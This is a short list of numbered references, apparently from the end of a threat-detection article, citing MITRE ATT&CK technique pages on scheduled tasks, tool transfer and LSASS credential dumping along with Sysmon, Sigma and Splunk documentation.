- [5] [MITRE ATT&CK — T1053.005: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
- [6] [MITRE ATT&CK — T1105: Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- [7] [MITRE ATT&CK — T1003.001: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)
- [8] [Microsoft Sysinternals — Sysmon Documentation](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [9] [SigmaHQ — Generic Process Creation Detection Repository](https://github.com/SigmaHQ/sigma)
- [10] [Splunk Documentation — Universal Forwarder Setup and SPL Reference](https://docs.splunk.com/Documentation)
